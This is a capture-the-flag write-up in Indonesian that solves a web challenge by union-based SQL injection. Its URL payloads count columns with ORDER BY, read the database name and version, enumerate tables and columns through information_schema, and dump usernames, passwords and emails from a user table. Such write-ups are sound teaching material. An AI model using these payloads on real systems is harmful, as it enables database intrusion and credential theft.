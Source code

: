 #CTF #MonthlyCTF24 #WriteUp #WebExploitation #SQLInjection

>**Flag:** `PC24{SQLInjection_Bahaya_Bangetz}`
>***References*:** [hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/sql-injection) [linuxsec.org](https://www.linuxsec.org/2014/03/tutorial-basic-sql-injection.html) 
### Soal:
![sql1-0.png](./img/sql1-0.png)
### Write Up:
![sql1-1.png](./img/sql1-1.png)
Pertama, kita perlu mengetahui kerentanan dari web dengan menambahkan `'` pada parameter url.
![sql1-2.png](./img/sql1-2.png)
Pesan error ini dapat menjadi indikasi bahwa web rentan terhadap sql injection. 

Cek jumlah kolom pada web menggunakan `ORDER BY`
```
http://217.15.166.137:5128/post.php?id=4%20order%20by%201 (True)
http://217.15.166.137:5128/post.php?id=4%20order%20by%202 (True)
http://217.15.166.137:5128/post.php?id=4%20order%20by%203 (True)
http://217.15.166.137:5128/post.php?id=4%20order%20by%204 (True)
http://217.15.166.137:5128/post.php?id=4%20order%20by%205 (Error)
```
dari sini kita bisa mengetahui bahwa jumlah kolom ada 4.

Kita cek apakah kita bisa menggunakan `UNION SELECT` atau tidak
```
http://217.15.166.137:5128/post.php?id=4%20union%20select%201,2,3,4
```
samakan select dengan jumlah kolom dan disini tidak terjadi error. Disini kita akan mencoba untuk mendapatkan informasi dari database.\
Ganti salah satu angka dengan `database()` untuk mengetahui nama database yang sedang digunakan dan `@@version` untuk mengetahui versinya.
```
http://217.15.166.137:5128/post.php?id=4%20union%20select%201,database(),@@version,4
```
#### Information:
Nama Database = `Blog`
Versi database = `11.4.2-MariaDB-ubu2404`

Kita akan mencari tahu tabel apa saja yang ada di dalam database ini menggunakan:
- `group_concat()` yang berguna untuk menggabungkan nilai-nilai dari beberapa baris menjadi satu string dengan nilai-nilai yang dipisahkan oleh tanda pemisah yang ditentukan.
- table `information_schema.tables` untuk mendapatkan nama table dengan column `table_name`.
- filter `where table_schema = database()` untuk membatasi hasil query berdasarkan nama database yang sedang aktif atau yang sedang digunakan dalam sesi saat itu.
```
http://217.15.166.137:5128/post.php?id=4%20union%20select%201,group_concat(table_name),3,4%20from%20information_schema.tables%20where%20table_schema=database()
```

![sql1-3.png](./img/sql1-3.png)

Nama tabel dalam database ada post dan user, kita coba untuk mengakses table user.
```
http://217.15.166.137:5128/post.php?id=4%20union%20select%201,group_concat(column_name),3,4%20from%20information_schema.columns%20where%20table_name=%27user%27
```
![sql1-4.png](./img/sql1-4.png)
Selanjutnya kita tampilkan keseluruhan isi dari dari table user.
```
http://217.15.166.137:5128/post.php?id=4%20union%20select%201,group_concat(id,username,password,email),3,4%20from%20user
```

![sql1-5.png](./img/sql1-5.png)

dan **FLAG HAS BEEN FOUND!!**